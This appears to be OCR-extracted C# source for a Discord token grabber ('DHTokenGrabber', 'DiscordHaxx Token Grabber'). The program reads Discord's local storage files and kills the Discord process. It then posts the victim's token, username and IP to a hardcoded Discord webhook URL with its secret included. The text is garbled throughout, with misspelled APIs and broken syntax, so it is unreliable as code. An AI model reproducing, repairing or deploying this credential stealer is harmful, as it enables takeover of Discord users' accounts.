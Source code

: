 https://discord.com/api/webhooks/915350603981520946/y0FpguWIAH3lB2GqzxWbsIZ2hW85K6orBEOb36wE8znvAYq6YhHyr_wMkGIEcZDS5USq
staff
namespace DHTokenGrabber
{   
// token: RID: 365 RVA: file Offset:
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
}))),
try 
{
    httpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).result;
}
catch (Exception)
{
}
 }
 // Token: 0x06000008 RID: 8 RVA: 0x00002368 File Offset: 0x00000568
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/915350603981520946/y0FpguWIAH3lB2GqzxWbsIZ2hW85K6orBEOb36wE8znvAYq6YhHyr_wMkGIEcZDS5USq").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "´´´" + string.join("\n",new string[]
                {
                    content
                }) + "´´´"
            },
            {
                "AlbeiroDos1131#5222"
                "redex token grabber"
            },
            {
                "Discord undefined//discord.com/assets/652f40427e1f5186ad54836074898279.png"

            }
        };
        httpClient.PostAsync(https://discord.com/api/webhooks/915350603981520946/y0FpguWIAH3lB2GqzxWbsIZ2hW85K6orBEOb36wE8znvAYq6YhHyr_wMkGIEcZDS5USq, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    // token: RID:366 RVA:0x00008888 File Offset:e
    
    
   
